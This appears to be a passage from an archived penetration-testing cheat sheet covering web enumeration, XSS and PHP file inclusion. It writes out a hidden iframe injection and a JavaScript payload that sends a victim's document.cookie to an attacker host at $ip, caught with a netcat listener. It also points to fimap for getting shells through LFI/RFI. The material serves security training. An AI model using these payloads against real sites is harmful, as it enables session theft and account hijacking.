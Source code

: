     *   HTTP / HTTPS Webserver Enumeration

        *   OWASP Dirbuster

        *   nikto -h $ip

    *   Essential Iceweasel Add-ons  
        Cookies Manager [https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/](http://web.archive.org/web/20171113221652/https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/)  
        Tamper Data  
        [https://addons.mozilla.org/en-US/firefox/addon/tamper-data/](http://web.archive.org/web/20171113221652/https://addons.mozilla.org/en-US/firefox/addon/tamper-data/)

    *   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication bypass, redirecting the victim’s browser to a malicious HTML page, and more

    *   Browser Redirection and IFRAME Injection

        <div class="highlight highlight-text-html-basic">

        <pre><<span class="pl-ent">iframe</span> <span class="pl-e">SRC</span>=<span class="pl-s"><span class="pl-pds">"</span>http://$ip/report<span class="pl-pds">"</span></span> <span class="pl-e">height</span> = <span class="pl-s"><span class="pl-pds">"</span>0<span class="pl-pds">"</span></span> <span class="pl-e">width</span>=<span class="pl-s"><span class="pl-pds">"</span>0<span class="pl-pds">"</span></span>></<span class="pl-ent">iframe</span>></pre>

        </div>

    *   Stealing Cookies and Session Information

        <div class="highlight highlight-source-js">

        <pre><span class="pl-k"><</span>javascript<span class="pl-k">></span>  
        <span class="pl-k">new</span> <span class="pl-en">image</span>().<span class="pl-smi">src</span><span class="pl-k">=</span><span class="pl-s"><span class="pl-pds">"</span>http://$ip/bogus.php?output=<span class="pl-pds">"</span></span><span class="pl-k">+</span><span class="pl-c1">document</span>.<span class="pl-c1">cookie</span>;  
        <span class="pl-k"><</span><span class="pl-k">/</span>script<span class="pl-k">></span></pre>

        </div>

        nc -nlvp 80

*   ## [](#file-inclusion-vulnerabilities)File Inclusion Vulnerabilities

    *   Local (LFI) and remote (RFI) file inclusion vulnerabilities are commonly found in poorly written PHP code.

    *   fimap - There is a Python tool called fimap which can be leveraged to automate the exploitation of LFI/RFI vulnerabilities that are found in PHP (sqlmap for LFI):  
        [_https://github.com/kurobeats/fimap_](http://web.archive.org/web/20171113221652/https://github.com/kurobeats/fimap)

        *   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.
    *   For Local File Inclusions look for the include() function in PHP code.
